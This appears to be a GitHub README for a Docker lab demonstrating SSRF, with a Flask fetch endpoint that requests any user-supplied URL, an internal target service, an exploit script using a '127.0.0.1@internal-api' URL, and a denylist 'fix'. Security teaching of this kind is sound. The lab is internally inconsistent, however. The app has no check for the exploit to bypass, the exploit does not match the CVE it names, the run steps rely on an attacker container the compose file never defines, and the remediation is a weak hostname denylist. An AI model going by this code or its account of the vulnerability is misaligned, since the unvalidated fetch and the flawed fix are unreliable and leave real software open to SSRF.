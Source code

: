 # urllib_ssrf_lab

A demonstration of [CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329) – a URL parsing vulnerability in Python’s `urllib` that can be abused to bypass hostname checks and perform SSRF (Server-Side Request Forgery).

### vulnerable_app/Dockerfile
```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY app.py .
RUN pip install flask
EXPOSE 5000
CMD ["python", "app.py"]
```

### vulnerable_app/app.py
```python
from flask import Flask, request
import urllib.request

app = Flask(__name__)

@app.route("/fetch")
def fetch():
    url = request.args.get("url")
    if not url:
        return "Missing URL parameter", 400

    try:
        with urllib.request.urlopen(url) as response:
            return response.read(), 200
    except Exception as e:
        return f"Request failed: {e}", 500

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

---

### internal_api/Dockerfile
```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY app.py .
RUN pip install flask
EXPOSE 8000
CMD ["python", "app.py"]
```

### internal_api/app.py
```python
from flask import Flask

app = Flask(__name__)

@app.route("/")
def index():
    return "Internal API: You shouldn’t be here via SSRF!"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

---

### docker-compose.yml
```yaml
version: '3'
services:
  vulnerable-app:
    build: ./vulnerable_app
    ports:
      - "5000:5000"
    networks:
      - ssrf-net

  internal-api:
    build: ./internal_api
    expose:
      - "8000"
    networks:
      - ssrf-net

networks:
  ssrf-net:
    driver: bridge
```

---

### exploit.py(sends URL internal-api:8000, hidden as 127.0.0.1)
```python
import requests

# This sends a deceptive URL
ssrf_url = "http://localhost:5000/fetch?url=http://127.0.0.1@internal-api:8000"

print("Sending SSRF attempt to vulnerable app...")
response = requests.get(ssrf_url)
print("Response:")
print(response.text)
```

---

### remediate.py(quick fix that creates a simple URL sanitizer)
```python
import urllib.parse

def is_safe_url(url):
    parsed = urllib.parse.urlparse(url)
    hostname = parsed.hostname
    return hostname not in ("127.0.0.1", "localhost", "0.0.0.0", "internal-api")

url = input("Enter a URL: ")
if is_safe_url(url):
    print("Safe URL, proceeding with fetch...")
else:
    print("Blocked potentially unsafe URL.")
```

---

Build and run the docker

```
git clone https://github.com/JoshRog7/urllib_ssrf_lab.git
docker-compose build
docker-compose up

```


🧪 Run SSRF Exploit from Attacker(new) Container
```bash

docker exec -it urllib_ssrf_lab-attacker-1 bash
pip install requests
python exploit.py
```
Expected output:

```bash
Sending SSRF attempt to vulnerable app...
Response:
Internal API: You shouldn’t be here via SSRF!
```

## 🛡 Remediation
```bash
python remediate.py
```

## ✅ Fix
- Use Python >= 3.11.4
- Sanitize input URLs before making outbound requests
- Implement allowlists or DNS/IP validation
